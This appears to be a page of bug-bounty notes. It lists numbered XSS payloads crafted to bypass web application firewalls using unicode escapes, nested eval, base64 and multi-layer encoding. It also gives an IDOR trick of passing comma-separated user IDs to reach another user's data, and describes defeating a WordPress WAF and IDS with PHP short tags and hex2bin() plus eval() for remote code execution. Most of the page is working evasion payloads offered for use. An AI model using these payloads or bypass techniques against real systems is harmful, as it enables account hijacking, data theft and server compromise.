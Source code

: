 ```html
<a href="data:text/html,%3Cscript%3Ealert('XSS by Ghost')%3C/script%3E">Click me</a>

📌 55. WAF Bypass with Mixed Unicode Encoding
<img src=x o\u006e\u0065rror="a\u006c\u0065rt('XSS by Ghost')">

📌 56. HTML Context with Embed Tag
<embed src="javascript:alert('XSS by Ghost')">

📌 57. Attribute Context with Nested Eval
<div onmouseover=eval(eval("'al'+'ert'")+'("XSS by Ghost")')>Hover me</div>

📌 58. JavaScript Context with Base64 and Eval
eval(atob('YWxlcnQoJ1hTUyBieSBHaG9zdCcp'))

📌 59. HTML Context with Picture Tag
<picture><source onerror="alert('XSS by Ghost')"></picture>

📌 60. WAF Bypass with Quadruple Encoding
<img src=x onerror=eval(decodeURIComponent(unescape(atob('JTI1NjElMjU2MyUyNTY1JTI1NzIlMjU3NCUyNTI4JTI1MjclMjU1OFUyNTUzJTI1MjBieSUyNTIwR2hvc3QlMjUyNyUyNTI5'))))>
```


----

💡 **IDOR Bypass Bug Bounty Tip**

Sometimes APIs behave unexpectedly when multiple IDs are passed together.

🔍 **Scenario** • Victim’s ID: 5200 • Attacker’s ID: 5233

🚫 `GET /api/users/5200/info` ➞ Access Denied ✅ `GET /api/users/5200,5233/info` ➞ Bypass Successful

⚠️ **Always test for comma-separated, array-style, or batch ID parameters when hunting for IDOR!**

---

![[Pasted image 20250611191506.png]]

![[Pasted image 20250611191529.png]]

While testing a WordPress setup, I noticed that it blocks any attempt to save PHP code using the standard <?php ?> tags — access denied right away. So, I tried using the shorthand <?= ?>, and surprisingly... it got through!

However, the IDS was still smart enough to detect and block any dangerous functions — even if they were Base64 encoded.

I experimented with multiple obfuscation methods, but none of them worked... until I had a breakthrough!

👀The trick? I used hex2bin() in combination with eval() — and that finally bypassed both the WAF and IDS.💥"

"I made this payload that is able to bypass WAF and even IDS to execute RCE 💀"
